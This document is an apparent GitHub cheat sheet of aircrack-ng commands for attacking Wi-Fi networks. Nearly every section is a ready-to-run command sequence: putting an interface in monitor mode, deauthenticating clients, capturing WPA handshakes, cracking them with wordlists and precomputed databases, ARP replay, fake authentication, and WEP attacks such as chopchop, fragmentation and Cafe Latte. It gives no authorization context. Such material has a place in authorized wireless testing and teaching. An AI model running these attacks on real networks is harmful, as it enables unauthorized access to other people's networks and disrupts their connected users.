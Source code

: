 # All usage of attacks by aircrack-ng

In this example
- `wlan0` is the name of your interface in manager mode
- `mon0` is the name of your interface in monitor mode
- `teddy` is the name of your target network
- `00:14:6C:7E:40:80` is the bssid of target network
- `00:09:5B:EB:C5:2B` is the bssid of your network
- `-c X` is the channel of target network
- `out.cap` is the filename to capture the WPA handshake
- `password.txt` is the filename to brute force
- `password.txt` is the file contains name of target network
- `crackwpa` is the database name for cracking password
- `sharedkey.xor` is the name of file containing the PRGA xor bits

## Scan network around

```
airmon-ng check kill
airmon-ng start wlan0
airodump-ng mon0
```

![image](https://user-images.githubusercontent.com/90561566/166110658-56663408-8ef9-4681-a5d1-4e7ec4bd3562.png)

## [Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication)

You can try it: https://github.com/lucthienphong1120/xDeauth

```
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
or
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 mon0
```

Ctrl+C to stop deauth

## WPA/WPA2 Handshake capture

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
ls
```

## [Cracking WPA/WPA2](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
(wait handshake)
aircrack-ng -w password.txt out*.cap 
```

## [ARP Request Replay Attack](https://www.aircrack-ng.org/doku.php?id=arp-request_reinjection)

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng -0 10 -a 00:14:6C:7E:40:80 mon0
aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

## Crack WEP by ARP request reinjection

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng -1 100 -a 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
aireplay-ng -3 0 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
(wait to capture about 70.000 packet)
aircrack-ng -a 1 out*.cap
```

## Speed up cracking use database

```
sudo apt install sqlite3
airolib-ng crackwpa --import passwd password.txt
airolib-ng crackwpa --import essid essid.txt
airolib-ng crackwpa --stats # to check information about your database before batch
airolib-ng crackwpa --clean all # to clean the database from old junk and integrity check
(you can skip 2 lines above)
airolib-ng crackwpa --batch
aircrack-ng -r crackwpa out*.cap
```

## Brute force tools

Aircrack often uses brute force with some other tools as follows:

- [Cupp](https://github.com/lucthienphong1120/cupp)
- /usr/share/wordlists/rockyou.txt.gz
- [Crunch](https://www.kali.org/tools/crunch)

```
crunch [min] [max] [charset] -t [pattern] -o [path file]
```

## [Interactive packet replay](https://www.aircrack-ng.org/doku.php?id=interactive_packet_replay)

Natural Packet Replay

```
aireplay-ng -2 -b 00:14:6C:7E:40:80 -d 00:09:5B:EB:C5:2B -t 1 mon0
```

Modified Packet Replay

```
aireplay-ng -2 -b 00:14:6C:7E:40:80 -t 1 -c 00:09:5B:EB:C5:2B -p 0841 mon0
```

Rebroadcast the packet and thereby generate new IVs

```
aireplay-ng -2 -p 0841 -c 00:09:5B:EB:C5:2B -b 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82  mon0
```

## [Fake authentication](https://www.aircrack-ng.org/doku.php?id=fake_authentication)

```
aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

Another variation

```
aireplay-ng -1 6000 -o 1 -q 10 -e teddy -a 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

## [Shared key fake authentication](https://www.aircrack-ng.org/doku.php?id=shared_key)

Start interface monitor mode on AP channel

```
airmon-ng start wlan0 6
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w sharedkey mon0
(wait AUTH=SKA)
ls
```

Deauthenticate a connected client

```
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 mon0
```

`00:0F:B5:34:30:30` is the MAC address of the client you are deauthing

Perform Shared Key Fake Authentication

```
aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B -y sharedkey*.xor mon0
```

## [Fragmentation Attack](https://www.aircrack-ng.org/doku.php?id=fragmentation)

```
aireplay-ng -5 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

## [Crack WEP with KoreK chopchop](https://www.aircrack-ng.org/doku.php?id=korek_chopchop)

```
aireplay-ng -4 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

Chopchop Without Authentication

```
aireplay-ng -4 -b 00:14:6C:7E:40:80 mon0
```

## [Crack WEP with Cafe Latte](https://www.aircrack-ng.org/doku.php?id=cafe-latte)

```
aireplay-ng -6 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B -D mon0
```

## [ARP amplification with packetforge-ng](https://www.aircrack-ng.org/doku.php?id=arp_amplification)

Read more: https://www.aircrack-ng.org/doku.php?id=arp_amplification










